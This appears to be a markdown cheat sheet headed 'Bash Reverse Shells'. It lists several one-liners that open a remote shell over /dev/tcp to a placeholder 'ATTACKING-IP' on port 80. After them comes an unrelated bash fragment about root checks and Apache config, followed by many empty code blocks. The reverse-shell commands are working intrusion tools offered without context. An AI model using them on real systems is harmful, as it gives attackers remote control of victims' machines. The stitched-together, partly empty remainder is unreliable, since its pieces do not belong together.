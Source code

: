 # Bash Reverse Shells

```
exec /bin/bash 0&0 2>&0

```
```

0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

#

```/bin/bash

###### CONFIG
ACCEPTED_HOSTS="/root/.hag_accepted.conf"
BE_VERBOSE=false

if [ "$UID" -ne 0 ]
then
 echo "Superuser rights required"
 exit 2
fi

genApacheConf(){
 echo -e "# Host ${HOME_DIR}$1/$2 :"
}

echo '"quoted"' | tr -d \" > text.txt

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
